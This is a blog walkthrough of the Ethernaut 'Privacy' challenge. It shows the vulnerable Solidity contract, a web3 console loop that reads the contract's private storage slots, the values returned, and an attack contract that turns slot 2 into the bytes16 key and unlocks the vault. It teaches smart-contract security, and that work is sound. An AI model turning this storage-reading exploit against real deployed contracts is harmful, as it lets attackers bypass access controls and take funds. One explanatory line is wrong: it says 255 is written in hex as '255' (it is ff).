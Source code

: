 +++
title = "Privacy - Ethernaut"
date = "2022-01-26"
author = "Dimitris Vagiakakos"
+++
On this challenge, we have to unlock a vault again, but this is a more advanced one.
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

So we can see some state variables and one byte32array. Our constructor parses the valuable data to the private data. The unlock function is our only point of interaction with this contract and here we just need to pass the right sequence of bytes16 to unlock the contract. As we already know, Ethereum blockchain is public, so we can spy on its storage by typing in console:

```
let storage = []
let callbackFNConstructor = (index) => (error, contractData) => {
    storage[index]= contractData
}


for( var i = 0; i<6; i++) { web3.eth.getStorageAt(contract.address, i, callbackFNConstructor(i)) }
```
Running the code in the web console above will fetch us the first 6 storage variables defined in the target contract.Then, by accessing in storage array, we can see the 6 storage varaibles:
```
storage
(6) ['0x0000000000000000000000000000000000000000000000000000000000000001', '0x0000000000000000000000000000000000000000000000000000000061e8582a', '0x00000000000000000000000000000000000000000000000000000000582aff0a', '0x6afa09c95f78aa0d4427b26b649a9e39764fb2e42aa80a1628d0af9465f2dfc6', '0x5be1ffbd26ef932af6988e85bfa3168a66be9f53ad7a4036c81ec5578a9e12a6', '0x3cb5971a348f1a4224f2175e48a929cc30b29ff44f5886d651e48fce1acdab53']

```

The very first storage variable ends with "001", so we expect to be a boolean variable. locked is the only boolean variable and obviously it is the first storage array data. We have  the variable flattening = 10; and denomination=255. In hexadecimal, 10 is represented as 0a  and 255 is represented as 255. We can find these in the third storage data.Due to storage optimization from Ethereum, we can find the in the same variable.

Storage optimization follows these very simple rules:
1. Each index set aside for a storage variable allow 256bits.
2. Variables are indexed in the order they are defined in smart-contract.
3. If a variable consumes less than 256bits to be represented, leftover space will be shared with subsequent variables if they fit. Otherwise, they will be in the next storage variable.

Also, it should be mentioned that constants do not use this type of storage. All other storage variables are from the byte32 array ``data`` . Therefore, we can see in unlock function that it is required that the key to be a byte16 and then compares it typecasts the data array[2] as a byte16 to aceed the comparision.
We have just to take the first half of the bytes32 data and that’s going to be the new bytes16 type data. Calling the unlock method with that as an input parameter should unlock the vault. Let's create an attack contract.

```
pragma solidity ^0.6.0;

import './Privacy.sol';

contract PrivacyAttack {
     Privacy target;





     constructor(address _targetAddr) public {
         target = Privacy(_targetAddr);

        
     }

     function unlock(bytes32 _slotValue) public {
	 			// type casting the bytes32 to bytes16 
         bytes16 key = bytes16(_slotValue);
         target.unlock(key);
     }
    }
```

Our contract address is: 
```
contract.address 
```
Under the deployment of the contract, we add the contract's address to set it as a target in the counstructor. Finally, we can copy the storage data that stores the key and then give it as an input to our attack unlock function. Then, the contract will typecast the data from byte32 to byte16, it will keep only the first half of the bytes32 and send it to bytes16 type data. We unlocked the vault!!

---
If you want to learn more about Smart Contract Security, please check our paper and eCourses:
## Smart-Contract Security:

* [Smart Contract Security - Educational eLearning Series in Greek on YouTube - Click Here](https://www.youtube.com/playlist?list=PLZa7COjIxKWzLcMxI9cRNSzOtdR0xvXB7)


* [Smart Contract Security - Educational eLearning Series in Greek on LBRY - Click Here](https://odysee.com/@TuxHouse:1/Ethereum-Hacking-Series-%28Greek%29:b?r=D1QgYeP81GoKPkW5T1jP96zxGA4GMfho&lid=b0b540e62d96ed2811b776519fc460617e4c40747)

